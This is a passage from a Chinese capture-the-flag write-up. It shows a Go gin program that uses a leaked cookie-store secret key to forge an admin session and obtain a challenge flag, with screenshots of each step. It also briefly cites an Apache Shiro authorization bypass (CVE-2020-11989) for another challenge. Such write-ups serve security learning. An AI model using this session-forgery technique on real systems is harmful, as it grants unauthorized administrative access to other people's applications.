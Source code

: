 然后用给的`key` 伪造一下session，用项目的例子

```go
package main

import (
	"github.com/gin-contrib/sessions"
	"github.com/gin-contrib/sessions/cookie"
	"github.com/gin-gonic/gin"
)

func main() {
	r := gin.Default()
	store := cookie.NewStore([]byte("Udc13VD5adM_c10nPxFu@v12"))
	r.Use(sessions.Sessions("session", store))

	r.GET("/hello", func(c *gin.Context) {
		session := sessions.Default(c)
		if session.Get("admin") != true {
			session.Set("admin", true)
			session.Save()
		}
		c.JSON(200, gin.H{"hello": session.Get("hello")})
	})
	r.Run(":8000")
}
```





![wK116s.png](https://s1.ax1x.com/2020/09/07/wK116s.png)



访问得session

[![wK1wp4.png](https://s1.ax1x.com/2020/09/07/wK1wp4.png)](https://imgchr.com/i/wK1wp4)



访问得flag



![wK1gAK.png](https://s1.ax1x.com/2020/09/07/wK1gAK.png)

# Easy Web



`https://xz.aliyun.com/t/7964` shiro `CVE-2020-11989`

权限绕过

![](https://s1.ax1x.com/2020/09/08/wMBRHS.png)
